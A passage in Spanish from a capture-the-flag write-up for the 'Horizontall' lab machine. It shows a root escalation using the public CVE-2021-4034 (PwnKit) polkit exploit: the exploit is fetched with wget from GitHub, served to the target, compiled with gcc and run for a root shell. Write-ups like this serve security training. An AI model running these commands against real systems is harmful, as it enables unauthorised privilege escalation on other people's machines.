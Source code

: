 Por lo que ahora podemos ejecutar comando como el usuario root.

Otras formas de encontrar el ROOT

Si bien la manera en que llegamos al root es una buena forma de hacer las cosas pues tuvimos que investigar y preparar todos los escenarios, hay otra forma mas rápida de llegar al root 

Para esto usaremos el **CVE-2021-4034** que es una vulnerabilidad de escalada de privilegios locales en pkexec de polkit, el exploit lo puedes encontrar [aquí](https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c) 

La forma de hacer que esto funcione es la siguiente 

descargue el exploit en mi maquina persona 

**wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c**

Lo renombre 

**mv cve-2021-4034-poc.c poc.c** 

Lo trasladamos a la maquina  victima levantando un servidor de pyhon en el directorio /tmp pues es el único que nos dejaría poder ejecutar archivos binarios, seguido de esto ejecute los siguientes comandos 

**gcc 'poc.c' -o exploit**

**gcc 'poc.c' -o exploit**

**./exploit**

![Untitled](WriteUp%20Horizontall%20cbd8d8a9999d4a3b8aec86f3261aeac8/Untitled%2031.png)

¡Obtuvimos una shell con todos los privilegios de administrador!

Muy bien, espero que te gustara, si te fue de ayuda para aprender nuevas cosas, por favor comparte. 

Happy Hacking!

Instagram: dalt0X6.__asm__

Linkedin: https://www.linkedin.com/in/omar-ggd/
